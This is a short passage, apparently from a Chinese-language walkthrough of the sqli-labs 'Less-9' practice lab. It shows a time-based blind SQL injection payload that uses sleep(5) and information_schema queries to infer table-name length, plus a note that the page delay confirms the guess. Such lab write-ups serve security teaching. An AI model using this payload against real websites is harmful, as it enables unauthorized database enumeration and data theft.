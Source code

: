 

+ 注入如下语句逐一判断所有表名长度

~~~ shell
?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
~~~

![Less-9_6](./img/Less-9_6.png)



由于页面有延迟，说明所有表名长度大于13

![Less-9_7](./img/Less-9_7.png)
